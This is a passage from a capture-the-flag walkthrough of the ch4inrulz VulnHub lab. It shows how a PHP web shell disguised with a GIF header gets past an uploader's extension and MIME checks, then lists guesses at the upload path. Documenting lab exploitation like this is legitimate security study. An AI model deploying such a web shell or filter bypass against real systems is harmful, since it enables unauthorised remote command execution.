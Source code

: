 Here's what I observed about the "uploader tool":

+ Checks image file extension for JPG, JPEG, PNG, and GIF.
+ Checks the associated image MIME type

I crafted the following file to bypass the checks and to upload.

```
# cat cmd.php.gif
GIF89a;
<?php echo shell_exec($_GET['cmd']); ?>
```

OK. I manage to upload the file. But where's the upload path?

![2c64ed92.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/2c64ed92.png)

I've tried the following paths with no success:

+ `/uploader/upload`
+ `/uploader/uploads`
+ `/uploader/myupload`
+ `/uploader/myuploads`
+ `/uploader/my-upload`
+ `/uploader/my-uploads`
+ `/uploader/my_upload`
+ `/uploader/my_uploads`

Then I had an epiphany. What if the word 'my' refers to Frank? I tried all the permutations of "Frank" until I hit the one seen here.

![d813c697.png](/assets/images/posts/ch4inrulz-1.0.1-walkthrough/d813c697.png)

Sneaky bastard, this Frank.

## Low-Privilege Shell

This is where I hit another road block. Somehow, the web server is refusing to load PHP at `/development/uploader`.


[1]: https://www.vulnhub.com/entry/ch4inrulz-101,247/
[2]: https://twitter.com/@mohammadaskar2
[3]: https://www.vulnhub.com/
